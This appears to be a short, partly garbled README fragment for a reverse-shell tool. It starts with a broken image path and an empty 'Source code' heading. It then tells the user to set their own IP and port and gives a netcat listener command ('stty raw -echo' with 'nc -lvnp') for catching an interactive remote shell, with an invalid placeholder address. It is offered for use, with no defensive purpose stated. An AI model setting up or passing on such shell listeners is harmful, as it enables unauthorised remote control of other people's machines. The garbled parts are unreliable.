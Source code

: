 Change to your ip address (HOST), change port to anything you want


For linux stty "raw -echo; (stty size; cat) | nc -lvnp 69 -s 100.000.00"


Change(100.000.00) to your ip (HOST) 

